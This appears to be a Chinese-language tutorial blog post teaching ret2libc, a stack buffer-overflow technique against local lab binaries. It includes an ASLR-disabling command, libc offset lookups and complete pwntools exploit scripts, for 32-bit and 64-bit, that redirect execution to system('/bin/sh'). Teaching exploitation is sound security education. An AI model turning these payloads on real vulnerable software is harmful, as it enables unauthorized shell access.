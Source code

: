 ```yaml
---
title: 'ret2libc'
date: '2023-08-18'
lastmod: '2023-08-18'
tags: ['PWN', 'Stack']
draft: false
summary: '标准 ROP 漏洞利用'
authors: ['default']
---
```


ret2libc 基于 C 标准库中的 `system` 函数。该函数会执行传递给它的任何内容，这使其成为最佳攻击目标。libc 中的另一个内容是字符串 `/bin/sh`；如果你将此字符串传递给 `system` 函数，它会弹出一个 shell。

这就是它的全部内容——将 `/bin/sh` 作为参数传递给 `system`。

LINK

## 0x01 禁用 ASLR

首先，我们将禁用 ASLR。ASLR 随机化 libc 在内存中的地址，这意味着我们无法计算出 `system()` 和 `/bin/sh` 的位置。为了便于你理解一般理论，我们将从禁用它开始。

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

## 0x02 手动利用

### 1x01 获取 libc 地址

幸运的是 Linux 有一个名为 `ldd` 的命令用于动态链接。如果我们用它来查看编译好的 ELF 文件，它会告诉我们它使用的库及其地址。

```bash
$ ldd vuln-32
	  linux-gate.so.1 (0xf7eda000)
	  libc.so.6 => /usr/lib32/libc.so.6 (0xf7c00000)
	  /lib/ld-linux.so.2 => /usr/lib/ld-linux.so.2 (0xf7edd000)
```

`libc.so.6` 是我们需要的 libc 文件，所以 libc 的地址是 `0xf7c00000`。

<Note>
  `libc` 地址以及 `system()` 和 `/bin/sh` 的偏移量对你来说可能不同。这不是问题，它只是意味着你有不同的版本的 `libc`。
</Note>

### 1x02 获取 system() 的地址

为了调用 `system()`，我们肯定需要它在内存中的地址。为此，我们可以使用 `readelf` 命令。

```bash
$ readelf -s /usr/lib32/libc.so.6 | grep system
  3209: 0004f610    63 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
```

`-s` 参数告诉 `readelf` 查看当前 ELF 文件的符号表，符号表中的信息只包括 **全局变量和函数名**。这里我们可以发现 `system()` 距 `libc` 库的偏移量是 `0x4f610`。

### 1x03 获取 /bin/sh 的地址

由于 `/bin/sh` 只是一个字符串，因此我们可以在刚刚通过 `ldd` 找到的动态链接库的基础上使用 `strings` 指令。

<Important>
  当将字符串作为参数传递时，你需要传递指向字符串的 **地址**，而不是字符串的十六进制表示形式，因为这就是 C 语言所规定的方式。
</Important>

```bash
$ strings -a -t x /usr/lib32/libc.so.6 | grep /bin/sh
  1c4dcd /bin/sh
```

`-a` 告诉它扫描整个文件；`-t x` 告诉它以十六进制格式输出偏移量。

### 1x04 32-bit 漏洞利用

```python:exp.py
from pwn import *

context(os='linux', arch='amd64', log_level='info')

p = process('./vuln-32')

libc_addr = 0xf7c00000
system_addr = libc_addr + 0x4f610
shell_addr = libc_addr + 0x1c4dcd

payload = b'A' * 76          # Padding 到 EIP
payload += p32(system_addr)  # system() 的地址
payload += p32(0x0)          # 避免异常
payload += p32(shell_addr)   # /bin/sh 的地址

p.sendline(payload)

p.interactive()
```

### 1x05 64-bit 漏洞利用

使用链接到 64-bit 程序的 `libc` 重复上述过程。

<Important>
  你必须使用 `pop rdi; ret` gadget 将其放入 RDI 寄存器中，而不是在返回地址之后传递参数。
</Important>

```bash
$ ROPgadget --binary vuln-64 | grep rdi
[...]
0x00000000004011cb : pop rdi ; ret
[...]
$ ROPgadget --binary vuln-64 | grep rsi
[...]
0x00000000004011c9 : pop rsi ; pop r15 ; ret
[...]
```

```python:exp.py
from pwn import *

context(os='linux', arch='amd64', log_level='info')

p = process('./vuln-64')

libc_addr = 0x7ffff7c00000
system_addr = libc_addr + 0x4f760
shell_addr = libc_addr + 0x19fe34

POP_RDI, POP_RSI_R15 = 0x4011cb, 0x4011c9

payload = b'A' * 72          # Padding 到 RIP
payload += p64(POP_RDI)      # pop rdi ; ret
payload += p64(shell_addr)   # 传入 /bin/sh 的地址
payload += p64(POP_RSI_R15)  # pop rsi ; pop r15 ; ret
payload += p64(0x0) * 2      # 填充 rsi 和 r15
payload += p64(system_addr)  # 把 system() 的地址传入 RIP

p.sendline(payload)

p.interactive()
```

## 0x03 使用 pwntools 实现半自动

pwntools 拥有大量功能，使这一切变得更加简单。

```python:exp.py
# 32-bit
from pwn import *

context(os='linux', arch='amd64', log_level='info')

elf = context.binary = ELF('./vuln-32')
p = process()

libc = elf.libc                             # 获取程序正在使用的 libc
libc.address = 0xf7c00000                   # 设置 libc 地址

system_addr = libc.sym['system']            # 获取 system() 的地址
shell_addr = next(libc.search(b'/bin/sh'))  # 获取 /bin/sh 的地址

payload = b'A' * 76                         # Padding 到 EIP
payload += p32(system_addr)                 # system() 的地址
payload += p32(0x0)                         # 避免异常
payload += p32(shell_addr)                  # /bin/sh 的地址

p.sendline(payload)

p.interactive()
```

64-bit 的半自动脚本本质上是一样的。

<Tip>
  如果题目提供了 libc ，也可以这样用：

  libc = ELF('libc.so.6')<br />
  print(libc.sym['system'])
</Tip>

<Note>
  pwntools 可以通过其 ROP 功能进一步简化它，但我不会在这里展示它们。
</Note>

